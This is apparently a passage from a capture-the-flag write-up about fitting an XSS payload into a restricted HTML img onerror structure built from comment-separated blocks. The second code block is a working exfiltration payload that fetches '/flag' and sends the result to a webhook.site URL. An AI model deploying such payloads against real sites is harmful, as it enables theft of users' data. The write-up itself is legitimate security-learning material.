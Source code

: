 ```html
<img src='
'onerror='/*
*/????????/*
*/????????/*
*/????????/*
*/????????/*
*/????????/*
*/????????/*
*/????????/*
*/????????/*
*/????????/*
*/????????/*
*/????????/*
*/'>
```

We can put anything we want in the `????????` blocks as long as each block is a legal javascript token.

Since we don't know how it will end up, let's just start by trying to make our exfil script fit into the given constraints and see how it goes:

```html
<img src='
'onerror='/*
*/fetch(/*
*/"/flag")/*
*/.then(r/*
*/=>r.text/*
*/()).then/*
*/(d=>/*
*/location/*
*/.href=/*
*/"https:"/*
*/+"//web"/*
*/+"hook."/*
*/+"site/"/*
*/+"d14ef"/*
*/+"fdcd-"/*
*/+"ca5f-"/*
*/+"43ae-"/*
*/+"b2cb-"/*
*/+"727fd"/*
*/+"dbbc8"/*
*/+"70?"+d/*
*/)'>
```

This looks like might work BUT it is 24 items and we are limited to only 20.

It seems like a shorter exfiltration URL might save the day.


